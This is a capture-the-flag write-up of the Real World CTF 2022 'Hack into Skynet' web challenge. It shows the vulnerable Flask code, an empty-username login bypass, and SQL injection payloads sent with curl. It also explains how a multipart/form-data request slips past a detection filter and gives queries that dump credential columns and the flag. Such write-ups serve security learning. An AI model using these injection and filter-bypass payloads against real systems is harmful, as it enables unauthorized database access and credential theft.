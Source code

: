 ![](https://realworldctf.com/static/img/homecenter.58f5025.png)

I haven't joined in CTF for about 3 months. Then this weekend I got an interesting challenge from Real World CTF. The Hack into Skynet challenge is to bypass the detection mechanism and trigger sql injection. However, this mechanism could not be easily bypassed

![](https://github.com/blogpocas/blogpocas.github.io/blob/main/CTF/Real%20World%20CTF%202022/Hack%20into%20Skynet/1.png?raw=true)
There is no sql injection vulnerability in login logic, and login is generally not possible because there is no user account.

```python
def query_login_attempt():
    username = flask.request.form.get('username', '')
    password = flask.request.form.get('password', '')
    if not username and not password:
        return False

    sql = ("SELECT id, account"
           "  FROM target_credentials"
           "  WHERE password = '{}'").format(hashlib.md5(password.encode()).hexdigest())
    user = sql_exec(sql)
    name = user[0][1] if user and user[0] and user[0][1] else ''
    return name == username
```
I've found some stupid logic in the code of the login logic. If the user variable is an empty value, the empty value of the name variable is put in, and finally the value of the name variable and the username variable is compared. Here, if the name variable and the username variable are both empty values, true is returned, so the login can be successful.

![](https://github.com/blogpocas/blogpocas.github.io/blob/main/CTF/Real%20World%20CTF%202022/Hack%20into%20Skynet/2.png?raw=true)
As expected, the login was successful when the username value was passed as an empty value. Now that the login was successful, the search logic can be used.

```python
def query_kill_time():
    name = flask.request.form.get('name', '')
    if not name:
        return None

    sql = ("SELECT name, born"
           "  FROM target"
           "  WHERE age > 0"
           "    AND name = '{}'").format(name)
    nb = sql_exec(sql)
    if not nb:
        return None
    return '{}: {}'.format(*nb[0])
```
SQL injection occurs because the value of name in the query_kill_time() function is passed as it is to the query.

```bash
root@pocas:~# curl -i -H 'SessionId=22ab1d4b55f5a686c3c9947c0a5ad830' http://47.242.21.212:8086/ -d "name='or 1=1 --"
HTTP/1.0 403 FORBIDDEN
Content-Type: text/html
Content-Length: 234
Server: Werkzeug/0.16.1 Python/3.8.10
Date: Thu, 27 Jan 2022 08:15:34 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>You don\'t have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>
```
When attempting sql injection, it was found that the detection mechanism was controlled.

```python
(...)

def skynet_detect():
    req = {
        'method': flask.request.method,
        'path': flask.request.full_path,
        'host': flask.request.headers.get('host'),
        'content_type': flask.request.headers.get('content-type'),
        'useragent': flask.request.headers.get('user-agent'),
        'referer': flask.request.headers.get('referer'),
        'cookie': flask.request.headers.get('cookie'),
        'body': str(flask.request.get_data()),
    }
    _, result = skynet.classify(req)
    return result and result['attack']

(...)

@app.route('/', methods=['GET', 'POST'])
def do_query():
    if skynet_detect():
        return flask.abort(403)

    if not query_login_state():
        response = flask.make_response('No login, redirecting', 302)
        response.location = flask.escape('/login')
        return response

    if flask.request.method == 'GET':
        return flask.send_from_directory('', 'index.html')
    elif flask.request.method == 'POST':
        kt = query_kill_time()
        if kt:
            result = kt 
        else:
            result = ''
        return flask.render_template('index.html', result=result)
    else:
        return flask.abort(400)
```
The reason is that the skynet_detect() function was being called before the query_kill_time() function was called. Here again the code was written with very stupid logic.

```txt
skynet_detect()   : flask.request.get_data()
query_kill_time() : flask.request.form.get()
```
In the skynet_detect() function, the get_data() method was used, and in the query_kill_time() function, the form.get() method was used, and the body value was used. Why use it differently? I got a lot of doubts here, and I thought this would be important in solving the challenge.

```bash
root@pocas:~# curl -i -H 'SessionId=22ab1d4b55f5a686c3c9947c0a5ad830' http://47.242.21.212:8086/ -d "name='or 1=1 --" -H "Content-Type: application/json"
HTTP/1.0 403 FORBIDDEN
Content-Type: text/html
Content-Length: 234
Server: Werkzeug/0.16.1 Python/3.8.10
Date: Thu, 27 Jan 2022 08:22:35 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>You don\'t have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>
root@pocas:~# curl -i -H 'SessionId=22ab1d4b55f5a686c3c9947c0a5ad830' http://47.242.21.212:8086/ -d "name='or 1=1 --" -H "Content-Type: application/xml"
HTTP/1.0 403 FORBIDDEN
Content-Type: text/html
Content-Length: 234
Server: Werkzeug/0.16.1 Python/3.8.10
Date: Thu, 27 Jan 2022 08:22:39 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>You don\'t have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>
```
So, while changing the value of `Content-Type` as above, I tried to bypass the detection mechanism by using the difference in parsing between the two functions. but no response. However, the important thing is that I did not use the file upload function using Multipart/form-data. When a file is uploaded, not only the file name and contents, but also various values exist as binary data. So I thought that if I tried using these functions, the values could be mixed and bypassed.

![](https://github.com/blogpocas/blogpocas.github.io/blob/main/CTF/Real%20World%20CTF%202022/Hack%20into%20Skynet/3.png?raw=true)
As expected, it was strangely detoured.

```sql
select string_agg(column_name, ','),null from information_schema.columns where table_name='target_credentials' --
==> -- id,account,password,access_key,secret_key: None

select string_agg(secret_key, ','),'f' from target_credentials --
==> -- rwctf{t0-h4ck-$kynet-0r-f1ask_that-Is-th3-questi0n},92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937: f
```

> FLAG : rwctf{t0-h4ck-$kynet-0r-f1ask_that-Is-th3-questi0n}

---
